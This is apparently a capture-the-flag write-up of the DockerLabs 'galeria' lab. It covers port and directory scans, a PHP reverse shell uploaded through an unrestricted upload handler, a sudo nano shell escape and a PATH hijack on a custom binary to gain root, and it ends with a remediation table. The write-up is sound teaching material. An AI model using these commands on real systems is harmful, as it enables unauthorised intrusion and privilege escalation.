









# galeria — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** Easy | **Target IP:** 172.17.0.2 | **Attacker IP:** 172.17.0.1

## Machine info


## Summary

**galeria** is an Easy DockerLabs machine chaining an unrestricted file upload with a two-hop sudo escalation. The gallery's upload handler, `handler.php`, accepts any file type, allowing a PHP reverse shell to be planted directly inside `uploads/images/`. From there, a shared NOPASSWD `nano` entry pivots to a second account, which in turn has NOPASSWD sudo on a custom binary that shells out to `convert` using a relative path — a PATH hijack that leads straight to root.

**Attack chain:** Reconnaissance → Web Enumeration → Unrestricted File Upload (RCE) → GTFOBins nano (www-data → gallery) → PATH Hijack on `runme` (gallery → root)

## 1. Reconnaissance

Confirmed connectivity to the target:



Full port scan with `nmap`:

```
nmap -p- -sS -sC -sV -vvv --open -oN scan.txt 172.17.0.2

PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 550 Permission denied.
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Gallery
```

FTP allows anonymous login but denies directory listing. Apache is titled "Gallery" — the web app was the next step.

## 2. Web Enumeration

The site is a simple image gallery:


`dirb` found a listable `/gallery/` directory:

```
dirb http://172.17.0.2

==> DIRECTORY: http://172.17.0.2/gallery/
+ http://172.17.0.2/index.html (CODE:200|SIZE:1772)

---- Entering directory: http://172.17.0.2/gallery/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
```



The `uploads/` folder is listable as well, exposing `handler.php` — an image upload endpoint with no file-type restriction:





## 3. Unrestricted File Upload (RCE)

A PHP reverse shell (`revshell.php`) was uploaded through `handler.php` and landed directly in `uploads/images/`, alongside the legitimate gallery images:



With a listener running, clicking the `revshell.php` link in the directory listing triggered it:



Shell stabilized:

```
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## 4. Privilege Escalation: www-data → gallery

Checking sudo permissions revealed a shared NOPASSWD entry on `nano` for both `www-data` and `gallery`:

```
sudo -l

User www-data may run the following commands on 2ae39188fc33:
    (gallery) NOPASSWD: /bin/nano
    (www-data) NOPASSWD: /bin/nano
```

Classic GTFOBins vector — spawn nano as `gallery` and execute a shell from inside it:

```
sudo -u gallery /bin/nano
```

Inside nano: **Ctrl+R**, **Ctrl+X**, then run `reset; sh 1>&0 2>&0`:



## 5. Privilege Escalation: gallery → root

Checking sudo permissions for `gallery` revealed NOPASSWD access to a custom binary:

```
sudo -l

User gallery may run the following commands on 2ae39188fc33:
    (ALL) NOPASSWD: /usr/local/bin/runme
```

```
ls -la /usr/local/bin/runme

-rwxr----- 1 root gallery 16000 Mar 29  2025 /usr/local/bin/runme
```

`strings` revealed the binary shells out to `convert` using a relative path:

```
strings /usr/local/bin/runme

Converting image...
convert /var/www/html/gallery/uploads/images/input.png /var/www/html/gallery/uploads/images/output.jpg
Done.
```

Since sudoers keeps `$PATH` (`env_keep+=PATH`), this is a straightforward PATH hijack: plant a fake `convert` ahead of the real one and let `runme` execute it as root.

```
echo 'bash -p' > convert
chmod +x convert
export PATH=.:$PATH
echo $PATH

.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

sudo /usr/local/bin/runme
Converting image...
```





Root access confirmed.

## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Unrestricted file upload on `handler.php` allows arbitrary file types, including PHP web shells | Validate file type/extension server-side with an allow-list, and store uploads outside the web root |
| Shared passwordless sudo on `/bin/nano` for two accounts enables lateral movement via GTFOBins | Remove NOPASSWD entries for full-featured editors; restrict sudo to specific, vetted commands |
| Custom binary calls `system()` with a relative path while sudoers preserves `$PATH` | Use absolute paths in privileged binaries, and avoid `env_keep+=PATH` for NOPASSWD entries |
